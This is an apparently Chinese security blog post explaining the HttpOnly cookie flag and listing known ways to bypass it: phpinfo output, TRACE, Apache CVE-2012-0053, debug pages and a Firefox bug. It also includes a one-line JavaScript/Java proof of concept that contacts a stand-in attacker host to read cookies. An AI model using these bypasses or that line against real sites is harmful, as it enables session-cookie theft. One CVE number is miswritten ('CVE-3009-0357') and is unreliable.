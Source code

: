 ```yaml
---
layout: post
title: "HttpOnly的那些事"
description: "HttpOnly的来源，发展和弱点"
category: web
tags: ["websecurity","xss"]
published: true
comments: true
date: 2013-03-24 20:55:47 +0800
---
```

{% include JB/setup %}

### HttpOnly简介
故名思议，`HttpOnly`是指仅在`HTTP`层面上传输的`Cookie`，当设置了`HttpOnly`标志后，客户端脚本就无法读写该`Cookie`，这样能有效的防御`XSS`攻击。`HttpOnly`是由微软在`2002`年首先在`Internet Explorer 6 SP1`上实现。根据微软的[描述](http://msdn2.microsoft.com/en-us/library/ms533046.aspx)，`HttpOnly`是`HTTP Set-Cookie`头中的一个附加标志，下面的例子就是一个头信息中设置了`HttpOnly Cookie`。
 
    Set-Cookie: USER=123; expires=Wednesday, 09-Nov-99 23:12:40 GMT; HttpOnly

目前，基本上所有的浏览器和web框架都支持`HttpOnly`。

<!--more-->

### 得到HttpOnly Cookie
##### phpinfo信息
`phpinfo`页面可以包含了`cookie`信息，其中同样存在`HttpOnly Cookie`，如下图。
![phpinfo()信息]({{ site.static_url }}/2013-03-25-01.png)
##### 支持TRACE方法的服务器
`Apache`支持的一个`Header`是`TRACE`，`TRACE`一般是用于调试，他会将请求头作为`HTTP Response Body`返回。利用这个特性，可以把`HttpOnly Cookie`读出来。不过目前各厂商已经禁止通过`Ajax`发送`TRACE`请求。
##### CVE-2012-0053
`Apache 2.2.x`多个版本没有严格限制`HTTP`请求头信息，`HTTP`请求头信息超过`LimitRequestFieldSize`长度时，服务器返回`400`错误，并在返回信息中将出错的请求头内容输出。利用这个特性，可以得到`HttpOnly Cookie`。
##### Django等一些web框架的调试页面
开启了调试模式的一些框架，会将程序的信息输出，其中就有`Cookie`信息。
##### CVE-3009-0357
`Firefox <= 1.9.1`在处理`HttpOnly Cookies`时存在bug，通过`getResponseHeader()`得不到`HttpOnly Cookie`，但是通过`getAllResponseHeaders()`可以得到。
##### Java getHeaderField
POC:

    alert(new java.net.URL('http://attacker.in/xss/cookie.php').openConnection().getHeaderField('set-cookie'));

### 参考
1. [https://www.owasp.org/index.php/HttpOnly](https://www.owasp.org/index.php/HttpOnly)
2. [http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html](http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html)
3. [https://bugzilla.redhat.com/show_bug.cgi?id=785069](https://bugzilla.redhat.com/show_bug.cgi?id=785069)
4. [https://bugzilla.mozilla.org/show_bug.cgi?id=380418](https://bugzilla.mozilla.org/show_bug.cgi?id=380418)

